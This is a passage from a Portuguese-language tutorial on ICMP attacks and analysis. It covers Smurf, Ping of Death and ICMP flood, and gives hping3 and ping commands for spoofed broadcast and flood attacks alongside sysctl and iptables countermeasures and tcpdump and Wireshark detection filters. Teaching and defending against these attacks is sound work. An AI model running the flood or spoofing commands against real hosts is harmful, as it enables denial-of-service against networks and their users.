 ```bash
# Atacante envia ping para broadcast com IP spoofado
sudo hping3 --icmp --flood --spoof 192.168.1.100 192.168.1.255

# Contramedida: desabilitar ICMP em broadcast
sudo sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=1
```

**4. Ping of Death**

ICMP com tamanho > 65535 bytes (fragmentado).

```bash
# Moderno (não funciona em sistemas atualizados)
ping -s 65500 target.com

# Histórico: causava crash em Windows 95/NT
```

**5. ICMP Flood**

```bash
# Flood de pings
sudo hping3 --icmp --flood target.com
ping -f target.com  # requer root

# Contramedida: rate limiting
sudo iptables -A INPUT -p icmp --icmp-type echo-request \
    -m limit --limit 1/s --limit-burst 5 -j ACCEPT
sudo iptables -A INPUT -p icmp --icmp-type echo-request -j DROP
```

#### Comandos de Análise

```bash
# Capturar ICMP
sudo tcpdump -i eth0 icmp -v

# Ver apenas Echo Request (ping)
sudo tcpdump -i eth0 'icmp[icmptype] == 8'

# Ver apenas Echo Reply
sudo tcpdump -i eth0 'icmp[icmptype] == 0'

# Ver Destination Unreachable
sudo tcpdump -i eth0 'icmp[icmptype] == 3'

# Ver Time Exceeded (traceroute)
sudo tcpdump -i eth0 'icmp[icmptype] == 11'

# Detectar ICMP tunneling (payload > 64 bytes)
sudo tcpdump -i eth0 'icmp and (ip[2:2] > 92)' -X

# Wireshark filters
icmp
icmp.type == 8
icmp.type == 0
icmp.type == 3 && icmp.code == 3  # Port Unreachable
icmp.data.len > 64  # Possível tunneling
```
